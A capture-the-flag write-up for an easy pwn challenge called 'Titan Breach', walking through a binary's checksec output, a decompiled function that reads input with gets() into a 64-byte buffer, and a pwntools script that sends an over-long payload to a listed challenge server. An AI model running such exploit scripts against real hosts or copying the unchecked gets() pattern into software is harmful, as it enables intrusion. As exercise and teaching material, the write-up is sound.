


### Challenge Details
- **Category**: Pwn
- **Difficulty**: Easy
- **access:**:  nc 139.59.162.57 1656

Behind the ancient Walls of Paradis lie secrets that humanity has forgotten. For a century, the walls have protected what remains of civilization from the threat that lies beyond... or so they say.

But the walls are not as impenetrable as they seem. Those who speak with enough conviction, whose words carry enough weight, might find that even stone and mortar cannot contain the truth forever.

Will your oath to the Scout Regiment be powerful enough to reveal what lies hidden? Or will you remain ignorant, safe within the confines of the walls?

### Requirements
- Knowledge of the boundary between safety and revelation
- The will to speak beyond normal constraints
- Courage to face what lies beyond the walls


---

*Author: xtle0o0*

---
## Binary Analysis

First, let's examine the binary using standard tools:

```
$ file titan
titan: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f268da2257cbe58ba6bed33fa9e5369e5afe9ab0, for GNU/Linux 3.2.0, not stripped

$ checksec titan
[*] '/home/kali/Desktop/citeflag/pwn/TitanBreach/titan'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We can see the binary has no stack canary protection and has executable stack segments, making it potentially vulnerable to buffer overflow attacks.

## Vulnerability Analysis

Since we were only provided with the binary, we need to decompile it to understand its functionality. Using Ghidra, we can inspect the `vulnerable_function`:



```c
void vulnerable_function(void)
{
  size_t sVar1;
  char local_48 [64];
  
  puts(&DAT_004021a0);
  puts(&DAT_00402228);
  puts(&DAT_00402260);
  puts(&DAT_00402100);
  printf("Your oath: ");
  gets(local_48);
  sVar1 = strlen(local_48);
  if (sVar1 < 0x46) {
    printf("You said: %s\n",local_48);
    puts("Your oath is not strong enough to breach the walls...");
  }
  else {
    printf("You said: %s\n",local_48);
    puts("Your oath is too powerful! The walls are crumbling!");
    print_flag();
  }
  return;
}
```

From this decompiled code, we can identify a classic buffer overflow vulnerability:

1. A buffer `local_48` is created with a size of 64 bytes
2. The program uses `gets()` to read user input into this buffer without any boundary checking
3. The function then checks if the length of the input is less than `0x46` (70 in decimal)
4. If the input length is 70 or more, it calls `print_flag()` which displays the flag

The vulnerability is in the use of `gets()`, which is notorious for being unsafe because it doesn't perform any boundary checking. This function will continue reading input until a newline character is encountered, regardless of the destination buffer's size.

## Exploitation

The exploitation is straightforward in this case:

1. The program allocates a 64-byte buffer for our input
2. It uses `gets()` to read our input, which doesn't check buffer boundaries
3. It then checks if our input length exceeds 70 characters (0x46 in hex)
4. If it does, the program calls `print_flag()` function

Unlike more complex buffer overflow exploits that require overwriting the return address or other memory manipulation, this challenge simply requires us to provide an input longer than 70 characters to trigger the flag reveal condition.

## Solution

The solution, as implemented in `solve.py`, uses pwntools to:

1. Connect to the challenge server
2. Create a payload of 80 'A' characters (beyond the 70-character threshold)
3. Send this payload when prompted for the oath
4. Receive and display the flag

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools
context.log_level = 'info'

# Connection details
HOST = '139.59.162.57'
PORT = 1656

def exploit():
    # Connect to challenge
    try:
        conn = remote(HOST, PORT)
        
        # Create payload - send 80 characters to ensure we exceed 70 characters
        payload = b'A' * 80
        
        # Send payload when prompted
        conn.recvuntil(b"Your oath: ")
        conn.sendline(payload)
        
        # Receive response
        conn.interactive()
    except Exception as e:
        error(f"Error occurred: {str(e)}")

if __name__ == "__main__":
    exploit()
```


## Conclusion

This challenge demonstrates a basic buffer overflow vulnerability. While it doesn't require exploiting memory corruption to hijack program execution flow, it introduces the concept of buffer boundaries and the dangers of unchecked input functions like `gets()`.

The challenge highlights an important security concept - always validate input length and use secure functions that perform boundary checking to prevent buffer overflows.
